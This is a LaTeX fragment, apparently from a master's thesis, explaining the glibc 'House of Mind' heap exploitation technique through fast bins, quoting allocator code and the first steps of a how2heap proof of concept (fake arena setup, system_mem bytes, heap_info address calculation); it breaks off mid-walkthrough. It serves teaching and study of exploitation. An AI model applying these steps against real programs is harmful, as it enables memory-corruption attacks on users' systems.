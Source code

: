 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\fb{fast bins}
\begin{document}
\subsection{Fast bin}
Consider following code of \fb{}
\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){
	if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
	|| __builtin_expect (chunksize (chunk_at_offset (p, size)) >= av->system_mem, 0)){
		errstr = "free(): invalid next size (fast)";
		goto errout;
}
set_fastchunks(av);
fb = &(av->fastbins[fastbin_index(size)]);
 /* ... */
p->fd = *fb;
*fb = p;
}

 \end{lstlisting}
The ideal way in this approach is to take control of fb, so, in the following line, fb overwrites on target. This scenario needs to bypass conditions too. This attack still works on the current version on \libc{}, so let us see a real sample from how2heap on the house of mind. Consider the following code:
\begin{lstlisting}[language=c,frame=tlrb]
int HEAP_MAX_SIZE = 0x4000000;
int MAX_SIZE = (128*1024) - 0x100;
\end{lstlisting}

The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000);
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial \lstinline{malloc_state} of the arena, also, \lstinline{system_mem} field. This field is used to validate the size of the chunk, so it must be larger than our chunk size.
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF;
fake_arena[0x88a] = 0xFF;
\end{lstlisting}

Now we need to find the location of fake arena
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}
\end{document}
